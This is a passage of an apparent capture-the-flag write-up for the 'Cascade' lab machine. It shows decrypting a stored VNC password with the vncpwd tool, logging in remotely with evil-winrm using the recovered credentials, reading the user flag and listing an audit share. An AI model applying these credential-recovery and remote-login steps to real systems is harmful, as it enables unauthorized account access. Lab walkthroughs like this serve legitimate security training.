 Decrypting this from and converting to base64 we get the string `a88qS25ayg8=`.

We know that the file is called `VNC install` so we search for password decrypters with `VNC`.

We come accross a tool on github and we compile it on our machine:
[Vncpwdtool](https://github.com/jeroennijhof/vncpwd)

We git clone this and run the commands to compile the binary.

```bash
➜  vncpwd git:(master) gcc -o vncpwd vncpwd.c d3des.c

➜  vncpwd git:(master) ✗ ./vncpwd hash 
Password: sT333ve2
```
### User.txt

We now login with `evil-winrm` and read the user flag.

```bash
➜  cascade evil-winrm -i cascade.htb -u s.smith -p sT333ve2


Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\s.smith\Documents> 
*Evil-WinRM* PS C:\Users\s.smith\Documents> type ../Desktop/user.txt
2560be791{...}
```


# Root

## reversing the dll and exe files

We find the shares folder and enumerate that further.

Since we are not allowed to list the shares it doesnt matter as we already know all of the share names from smb access.

```bsah
*Evil-WinRM* PS C:\Shares> cd Audit
*Evil-WinRM* PS C:\Shares\Audit> dir


    Directory: C:\Shares\Audit


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        1/28/2020   9:40 PM                DB
d-----        1/26/2020  10:25 PM                x64
d-----        1/26/2020  10:25 PM                x86
-a----        1/28/2020   9:46 PM          13312 CascAudit.exe
-a----        1/29/2020   6:00 PM          12288 CascCrypto.dll
-a----        1/28/2020  11:29 PM             45 RunAudit.bat
-a----       10/27/2019   6:38 AM         363520 System.Data.SQLite.dll
-a----       10/27/2019   6:38 AM         186880 System.Data.SQLite.EF6.dll
```
